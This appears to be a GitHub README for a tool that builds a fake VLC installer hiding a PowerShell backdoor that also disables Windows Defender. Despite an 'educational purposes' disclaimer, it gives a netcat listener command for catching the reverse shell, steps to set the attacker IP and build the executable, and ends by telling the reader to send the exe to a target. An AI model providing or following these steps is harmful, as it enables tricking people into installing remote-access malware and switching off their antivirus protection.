 # Fake-netcat-VLC-installer-backdoor
---THIS IS FOR EDUCATIONAL PORPOSES--- VLC fake insatller exe that has hiden a powershell backdoor and with windows defender disable features!

# Usage 

Open a Kali Linux vm or laptop and run this cmd 
stty raw -echo; (stty size; cat) | nc -lvnp 54 -s 127.0.0.1  -replace the localip (127.0.0.1) with the kali ip

# set up

Download and install visual studio

open the .sln file

locate the local ip 127.0.0.1 and change it to a real one 

click build and rebuild backdoor

send the exe to your target 
